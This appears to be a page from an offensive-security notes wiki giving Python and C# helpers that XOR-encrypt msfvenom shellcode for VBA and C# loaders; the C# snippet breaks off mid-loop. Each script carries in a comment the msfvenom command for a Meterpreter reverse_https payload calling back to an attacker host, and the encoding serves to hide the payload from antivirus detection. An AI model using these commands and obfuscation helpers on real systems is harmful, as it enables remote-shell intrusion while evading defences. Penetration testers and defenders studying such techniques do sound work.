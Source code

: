 
## Shellcode Encoders/Encryptors

Shellcode XOR-encrypt helper for VBA:

{% code title="XOREncrypt.py" %}
```python
import ast
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication
buf = """buf = Array(31,33,...,33,37)"""
buf = buf[11:]
buf = buf.replace(' _\n', '')
buf = ast.literal_eval(buf)
enc = [b ^ ord('a') for b in buf]
enc = str(enc).replace('[', '').replace(']', '')

parts, chunk = [], ''
for c in enc:
    chunk += c
    if len(chunk) > 200 and c == ',':
        parts.append(chunk.strip())
        chunk = ''
parts.append(chunk)

enc = ' _\r\n'.join(parts)
enc = f'buf = Array({enc})'
print(enc)
```
{% endcode %}

Shellcode XOR-encrypt helper for C# (msfvenom-like output style):

{% code title="XOREncrypt.cs" %}
```csharp
using System;
using System.Text;

namespace XOREncrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37
            };

            // XOR-encrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            StringBuilder hex = new StringBuilder(buf.Length * 2);
            //foreach (byte b in buf)
            for (int i = 0; i < buf.Length; i++)
            {
                if (i != buf.Length - 1)
                {
                    hex.AppendFormat("0x{0:x2},", buf[i]);
                }
                else // no "," for the last line
```
